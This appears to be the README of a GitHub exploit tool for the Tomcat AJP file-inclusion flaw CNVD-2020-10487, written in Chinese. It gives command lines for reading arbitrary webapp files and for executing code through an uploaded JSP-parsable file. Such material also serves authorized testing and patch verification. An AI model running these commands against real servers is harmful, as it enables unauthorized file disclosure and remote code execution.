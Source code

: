 # CNVD-2020-10487-Tomcat-Ajp-lfi
Tomcat-Ajp协议漏洞

## 使用

1. 读取指定webapp下的指定文件
``` shell
python CNVD-2020-10487-Tomcat-Ajp-lfi.py -f path/to/readfile.file -w webappname -p ajp_port target_ip
```

运行示例：
![](./img/read_file.png)

2. 执行命令，以此漏洞执行命令的前提是攻击的Tomcat webapp目录中存在内容可控的任意文件，该文件可以不是以.jsp或者.jspx格式结尾的文件，任意文件名即可，只需保证文件内容能被jsp解析器正确解析（可通过webapp提供的文件上传功能实现文件上传）。
且使用方法与读取文件的使用方法有小部分差异，即-w/--webapp的参数值需要指定为webshell所在的webapp下的任意一个jsp文件，如：-w examples/jsp/jsp2/el/basic-arithmetic.jsp
``` shell
python CNVD-2020-10487-Tomcat-Ajp-lfi.py -f path/to/remote_code.file -w webappname/path/to/jspname.jsp -p ajp_port target_ip
```

运行示例：
![](./img/code_execute.png)
